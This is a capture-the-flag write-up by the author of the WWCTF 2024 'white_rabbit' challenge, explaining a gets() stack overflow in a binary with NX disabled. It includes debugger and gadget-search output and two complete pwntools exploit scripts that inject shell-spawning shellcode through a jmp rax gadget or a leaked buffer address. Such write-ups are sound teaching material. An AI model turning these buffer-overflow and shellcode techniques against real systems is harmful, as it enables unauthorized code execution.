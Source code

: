 +++
title = 'World Wide CTF 2024 - pwn/white-rabbit'
date = 2024-12-01T06:52:21-05:00
draft = true
+++

White Rabbit is a shellcode challenge I created for WWCTF 2024. I will walk you through the intended solution and share an very clever approach discovered by my teammate @Nosimue.


## Overview

We are given a binary (white_rabbit) and a remote netcat endpoint. The first step is to analyze the binary's protections useing `checksec`

```shell
[d@d-20tk001gus challs]$ checksec --file=white_rabbit
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   PIE enabled     No RPATH   No RUNPATH   31 Symbols	  No	0		2		white_rabbit
```

1. NX Disabled: Allows execution of injected shellcode.
2. PIE Enabled: The binary is loaded at a random address in memory.
3. No Canary: The binary does not use stack canaries, which are a protection against buffer overflow attacks.
4. ASLR Enabled: Stack and binary addresses are randomized.

Running the program locally:

```shell

  (\_/)
  ( •_•)
  / > 0x60f1f6156180

follow the white rabbit...
```

The program prints an address. Disassembling the binary in Ghidra reveals that the printed address is the address of the main function. Here's a look at main:

```c
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puts("\n  (\\_/)");
  puts(&DAT_0010200d);
  printf("  / > %p\n\n",main);
  puts("follow the white rabbit...");
  follow();
  return 0;
}
```

And the follow function:

```c
void follow(void)

{
  char local_78 [112];
  
  gets(local_78);
  return;
}

```
The vulnerability is in follow(), which uses gets() to read user input without bounds, making a buffer overflow possible. Our goal is to inject shellcode into the buffer and execute it. However, since the leaked address is not a stack address, we don't know where to jump to. We need to find a different way to execute our shellcode,

## Analyzing Input

Let's take a look at what happens to our input after gets() is called in follow() Attaching a debugger and setting a breakpoint after gets() and sending 'AAAAAAA' as input we see:

```shell
$rax   : 0x00007fffffffe150  →  "AAAAAAAA"
$rbx   : 0x00007fffffffe2f8  →  0x00007fffffffe6c1  →  "/home/d/Downloads/WWCTF24/challs/white_rabbit"
$rcx   : 0x00007ffff7f828e0  →  0x00000000fbad208b
$rdx   : 0x0
$rsp   : 0x00007fffffffe150  →  "AAAAAAAA"
$rbp   : 0x00007fffffffe1c0  →  0x00007fffffffe1d0  →  0x00007fffffffe270  →  0x00007fffffffe2d0  →  0x0000000000000000
$rsi   : 0x00007ffff7f82963  →  0xf84720000000000a ("\n"?)
$rdi   : 0x00007ffff7f84720  →  0x0000000000000000
$rip   : 0x000055555555517d  →  <follow+0014> nop
$r8    : 0x0
$r9    : 0x0
$r10   : 0x0
$r11   : 0x246
$r12   : 0x1
$r13   : 0x0
$r14   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000555555554000  →   jg 0x555555554047
$r15   : 0x0000555555557dd8  →  0x0000555555555110  →   endbr64
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
```

The input buffer is pointed to by RAX after gets(). This makes sense as RAX is usually used to hold the return value of a functions. This means if we can find a jmp rax or call rax gadget in the binary, we can redirect execution to our shellcode in the buffer.

## Finding Gadgets with Ropper

Using ropper, we can search for a gadget to execute our shellcode:

```shell
[d@d-20tk001gus challs]$ ropper --file=white_rabbit --search "jmp rax"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp rax

[INFO] File: white_rabbit
0x00000000000010bf: jmp rax;
0x00000000000010bf: jmp rax; nop dword ptr [rax]; ret;
0x0000000000001100: jmp rax; nop word ptr [rax + rax]; ret;
```

The jmp rax gadget at 0x10bf allows us to jump directly to the address stored in RAX — exactly what we need.

## Crafting the exploit:

1. Calculate Base Address: Since PIE is enabled, the binary is loaded at a randomized base address. We use the leaked address of main to compute the base address:
`elf.address  = int(p.recvuntil("\n").strip(), 16) - elf.sym.main`
2. Calculate Overflow Offset: The distance between the start of the buffer and RIP is 120 bytes.
3. Craft our shellcode: We could write our own, but pwncools shellcraft is very convinient :) 
4. Finally we build our payload: First our shellcode, then padding to instruction pointer, and then our jmp rax gadget.

Here is our final solve script:

```python
elf = context.binary = ELF('../white_rabbit',)
p = remote("whiterabbit.chal.wwctf.com", 1337)

jmp_rax = next(elf.search(asm('jmp rax')))

p.recvuntil(">");
elf.address  = int(p.recvuntil("\n").strip(), 16) - elf.sym.main

jmp_rax += elf.address

payload = asm(shellcraft.sh())
payload = payload.ljust(120, b'A')
payload += p64(jmp_rax)

p.sendline(payload)
p.interactive()
```

`wwf{jmp_d0wn_th3_r4bb1t_h0le_0caba44088}`



## Alternate Solution: Leaking Buffer Address 

During internal testing of this challenge, my teammate @Nosiume came up with a very clever solve that bypasses the need for a jmp rax gadget entirely by leaking the address of the buffer. Here's how it works:

After gets() in the follow() function, the address of the buffer is stored in RAX. By finding a code path that prints the contents of RAX, we can leak the buffer address to bypass ASLR. This instuction within main moves the contents of rax to rsi.

` 0x00000000000011d1 <+45>:	mov    rsi,rax`

At this point:
   - rax holds the address of our input buffer.
   - rsi (set by mov rsi, rax) will be passed to printf() as the second argument during a subsequent call.

If we redirect execution to this instruction, the buffer address will be printed during the next printf() call. Afterward, the program continues to the follow() function, where we can use the leaked address for a direct return to our shellcode.

Here is his final solve script.



```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./white_rabbit')
context.terminal = ['alacritty', '-e']

gs = """
b *follow+26
continue
"""
io = gdb.debug(elf.path, gdbscript=gs) if args.GDB else process()

def exploit():
    context.log_level = 'info'

    io.recvuntil(b'> ')
    elf.address = int(io.recvline(), 16) - elf.sym.main

    info("elf base : " + hex(elf.address))
    info("target : " + hex(elf.address + 0x11d1))

    offset = 120
    payload = b'A'*offset + pack(elf.address + 0x11d1)

    io.sendlineafter(b'...\n', payload)
    io.recvuntil(b'> ')

    shellcode_addr = int(io.recvline(), 16)
    payload = flat({
        0: [ asm(shellcraft.amd64.linux.sh()) ],
        offset: [ shellcode_addr ]
    })

    io.sendlineafter(b'...\n', payload)
    io.interactive()

if __name__ == "__main__":
    exploit()
```

If you came up with a unique solve or have feedback on the challenge, I'd love to hear from you.